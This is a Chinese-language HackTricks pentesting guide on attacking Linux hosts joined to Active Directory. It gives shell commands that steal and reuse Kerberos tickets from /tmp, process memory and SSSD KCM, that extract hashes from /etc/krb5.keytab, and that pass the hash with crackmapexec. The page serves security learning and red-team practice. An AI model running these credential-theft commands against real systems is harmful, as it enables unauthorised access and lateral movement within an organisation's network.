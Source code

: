 # Linux Active Directory

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

在 Active Directory 环境中也可以存在一台 Linux 机器。

在 AD 中的 Linux 机器可能会**在文件中存储不同的 CCACHE 票证。这些票证可以像其他任何 Kerberos 票证一样被使用和滥用**。要读取这些票证，您需要是票证的用户所有者或**root**用户。

## 枚举

### 从 Linux 进行 AD 枚举

如果您在 Linux（或 Windows 的 bash）中访问 AD，您可以尝试 [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) 来枚举 AD。

您还可以查看以下页面以了解**从 Linux 枚举 AD 的其他方法**：

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA 是一个开源的**替代** Microsoft Windows **Active Directory** 的解决方案，主要用于**Unix** 环境。它结合了一个完整的**LDAP 目录**和一个 MIT **Kerberos** 密钥分发中心，管理方式类似于 Active Directory。利用 Dogtag **证书系统**进行 CA 和 RA 证书管理，支持**多因素**身份验证，包括智能卡。集成了 SSSD 以支持 Unix 身份验证过程。了解更多信息：

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## 操作票证

### Pass The Ticket

在此页面中，您将找到不同的地方，您可以**在 Linux 主机中找到 Kerberos 票证**，在以下页面中，您可以学习如何将这些 CCache 票证格式转换为 Kirbi（您在 Windows 中需要使用的格式），以及如何执行 PTT 攻击：

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### 从 /tmp 重用 CCACHE 票证

CCACHE 文件是用于**存储 Kerberos 凭据**的二进制格式，通常以 600 权限存储在 `/tmp` 中。这些文件可以通过其**名称格式 `krb5cc_%{uid}`**来识别，与用户的 UID 相关联。要验证身份验证票证，**环境变量 `KRB5CCNAME`** 应设置为所需票证文件的路径，以便重用。

使用 `env | grep KRB5CCNAME` 列出当前用于身份验证的票证。该格式是可移植的，票证可以通过使用 `export KRB5CCNAME=/tmp/ticket.ccache` 设置环境变量来**重用**。Kerberos 票证名称格式为 `krb5cc_%{uid}`，其中 uid 是用户 UID。
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE 票证重用来自密钥环

**存储在进程内存中的 Kerberos 票证可以被提取**，特别是在机器的 ptrace 保护被禁用时（`/proc/sys/kernel/yama/ptrace_scope`）。一个有用的工具可以在 [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) 找到，它通过注入会话并将票证转储到 `/tmp` 来方便提取。

要配置和使用此工具，请按照以下步骤进行：
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
此过程将尝试注入到各种会话中，通过将提取的票证存储在 `/tmp` 中，命名约定为 `__krb_UID.ccache` 来指示成功。

### 来自SSSD KCM的CCACHE票证重用

SSSD在路径 `/var/lib/sss/secrets/secrets.ldb` 处维护数据库的副本。相应的密钥存储为隐藏文件，路径为 `/var/lib/sss/secrets/.secrets.mkey`。默认情况下，只有在您具有 **root** 权限时，才能读取该密钥。

使用 **`SSSDKCMExtractor`** 调用 --database 和 --key 参数将解析数据库并 **解密秘密**。
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**凭证缓存 Kerberos blob 可以转换为可用的 Kerberos CCache** 文件，可以传递给 Mimikatz/Rubeus。

### 从 keytab 重用 CCACHE 票证
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### 从 /etc/krb5.keytab 提取账户

服务账户密钥，对于以 root 权限运行的服务至关重要，安全地存储在 **`/etc/krb5.keytab`** 文件中。这些密钥类似于服务的密码，要求严格保密。

要检查 keytab 文件的内容，可以使用 **`klist`**。该工具旨在显示密钥详细信息，包括用户身份验证的 **NT Hash**，特别是当密钥类型被识别为 23 时。
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
对于Linux用户，**`KeyTabExtract`** 提供了提取RC4 HMAC哈希的功能，这可以用于NTLM哈希重用。
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
在 macOS 上，**`bifrost`** 作为一个工具用于 keytab 文件分析。
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
利用提取的账户和哈希信息，可以使用工具如 **`crackmapexec`** 建立与服务器的连接。
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## 参考文献

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
